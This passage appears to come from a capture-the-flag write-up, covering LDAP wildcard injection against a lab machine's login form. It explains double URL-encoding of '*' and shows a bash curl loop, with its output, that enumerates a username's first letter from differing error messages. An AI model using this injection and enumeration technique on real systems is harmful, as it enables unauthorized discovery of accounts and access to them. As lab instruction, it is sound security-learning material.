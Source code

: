 This implies my username was found!

If I look at that same request in Burp, I'll notice something else:

![](/img/1549885744657.png)

It looks like the form is url-encoding my input as well, so this
actually goes in as double url-encoded. The first encoding takes `*`
--\> `%2a`, and the second encodes the `%` to take `%2a` --\> `%252a`.

Now, I should be able to see what the username starts with using a bash
loop and `curl` and a couple `grep` to isolate the part of the response
I care about:



    root@kali# for c in {a..z}; do curl -s http://10.10.10.122/login.php -d "inputUsername=${c}%252a&inputOTP=0000" | grep -A1 '<div>' | grep '</div>'; done      
        User a%2a not found    </div>
        User b%2a not found    </div>       
        User c%2a not found    </div>       
        User d%2a not found    </div>       
        User e%2a not found    </div>       
        User f%2a not found    </div>    
        User g%2a not found    </div>       
        User h%2a not found    </div>       
        User i%2a not found    </div>
        User j%2a not found    </div>       
        User k%2a not found    </div>       
        Cannot login    </div>              
        User m%2a not found    </div>       
        User n%2a not found    </div>
        User o%2a not found    </div>
        User p%2a not found    </div>        
        User q%2a not found    </div>        
        User r%2a not found    </div>
        User s%2a not found    </div>
        User t%2a not found    </div>      
        User u%2a not found    </div>
        User v%2a not found    </div>
        User w%2a not found    </div>
        User x%2a not found    </div>
        User y%2a not found    </div>
        User z%2a not found    </div>  



Based on that result, the username starts with "l". Now I have a method
to brute force the username. I could continue to brute for using bash,
but I'm going to write something in python in a minute.

### Leak OTP Seed

#### Identify Attribute
